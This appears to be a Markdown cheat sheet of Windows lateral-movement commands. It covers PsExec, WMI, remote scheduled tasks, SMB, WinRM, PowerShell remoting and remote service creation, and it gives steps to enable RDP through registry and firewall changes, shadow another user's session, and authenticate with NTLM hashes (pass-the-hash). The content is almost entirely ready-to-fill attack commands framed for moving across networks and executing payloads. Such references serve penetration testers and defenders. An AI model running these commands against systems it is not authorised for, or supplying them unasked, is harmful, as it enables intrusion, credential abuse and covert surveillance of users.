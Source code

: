 # PsExec for Remote Command Execution

PsExec is a Sysinternals tool that can be used to execute commands remotely.

#### Execute Commands on a Remote System
```cmd
psexec \\<target_ip> -u <domain>\<user> -p <password> cmd
```

#### Execute Commands and Get Output Locally
```cmd
psexec \\<target_ip> -u <domain>\<user> -p <password> cmd /c "<command>"
```

#### Run a Program Remotely
```cmd
psexec \\<target_ip> -u <domain>\<user> -p <password> -c C:\path\to\program.exe
```

# Remote Desktop Protocol (RDP)

RDP allows for graphical remote desktop interaction, enabling lateral movement across machines.

#### Enable RDP on the Target System
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

#### Connect to the Remote Machine via RDP
```cmd
mstsc /v:<target_ip>
```

#### Shadow a Remote User Session (View Their Screen)
```cmd
shadow <session_id> /server:<target_ip>
```

# Windows Management Instrumentation (WMI)

WMI can be used for executing commands remotely on another machine.

#### Execute a Command on a Remote Host
```cmd
wmic /node:<target_ip> /user:<domain>\<user> /password:<password> process call create "cmd.exe /c <command>"
```

#### Query Information on a Remote Host
```cmd
wmic /node:<target_ip> /user:<domain>\<user> /password:<password> computersystem get name,domain
```

#### Start a Process Remotely
```cmd
wmic /node:<target_ip> /user:<domain>\<user> /password:<password> process call create "C:\path\to\program.exe"
```

# Remote Scheduled Tasks

Windows allows you to schedule tasks to run on remote machines, enabling command execution.

#### Create a Scheduled Task Remotely
```cmd
schtasks /create /s <target_ip> /u <domain>\<user> /p <password> /tn "TaskName" /tr "cmd.exe /c <command>" /sc once /st 00:00
```

#### Run a Scheduled Task Remotely
```cmd
schtasks /run /s <target_ip> /u <domain>\<user> /p <password> /tn "TaskName"
```

#### Delete a Scheduled Task Remotely
```cmd
schtasks /delete /s <target_ip> /u <domain>\<user> /p <password> /tn "TaskName" /f
```

# File Sharing (SMB)

Using SMB (Server Message Block) protocol, files can be transferred between hosts, and commands or payloads can be executed remotely.

#### List Shared Folders on a Remote System
```cmd
net view \\<target_ip>
```

#### Copy Files to a Remote Share
```cmd
copy <local_file> \\<target_ip>\C$\path\to\destination
```

#### Execute a File from a Remote Share
```cmd
psexec \\<target_ip> -u <domain>\<user> -p <password> cmd /c "\\<target_ip>\C$\path\to\file.exe"
```

# Pass-the-Hash

Pass-the-hash allows authentication using NTLM hashes instead of passwords.

#### Pass-the-Hash with PsExec
```cmd
psexec \\<target_ip> -u <domain>\<user> -h <NTLM_hash> cmd
```

#### Use `net use` to Authenticate Using an NTLM Hash
```cmd
net use \\<target_ip>\IPC$ /user:<domain>\<user> <NTLM_hash>
```

#### Use Pass-the-Hash to Connect via SMB
```cmd
wmic /node:<target_ip> /user:<domain>\<user> /password:<NTLM_hash> process call create "cmd.exe /c <command>"
```

# Remote PowerShell

#### Open a Remote PowerShell Session (If PowerShell Remoting is Enabled)
```cmd
Enter-PSSession -ComputerName <target_ip> -Credential <domain>\<user>
```

#### Run a PowerShell Script Remotely
```cmd
Invoke-Command -ComputerName <target_ip> -Credential <domain>\<user> -FilePath C:\path\to\script.ps1
```

# Windows Remote Management (WinRM)

WinRM is a service that allows remote management and command execution on Windows machines.

#### Check if WinRM is Enabled
```cmd
winrm quickconfig
```

#### Execute a Command on a Remote System via WinRM
```cmd
winrs -r:<target_ip> -u:<domain>\<user> -p:<password> cmd /c "<command>"
```

# Task Scheduler for Remote Execution

Task Scheduler can be used to run tasks on remote systems.

#### List Tasks on a Remote Machine
```cmd
schtasks /query /s <target_ip> /u <domain>\<user> /p <password>
```

#### Create and Run a Task on a Remote Machine
```cmd
schtasks /create /s <target_ip> /u <domain>\<user> /p <password> /tn "TaskName" /tr "cmd.exe /c <command>" /sc once /st 00:00
```

# Remote Service Creation

Windows services can be created or started remotely to execute payloads.

#### Create a Remote Service
```cmd
sc \\<target_ip> create <ServiceName> binpath= "C:\path\to\payload.exe" start= auto
```

#### Start a Remote Service
```cmd
sc \\<target_ip> start <ServiceName>
```
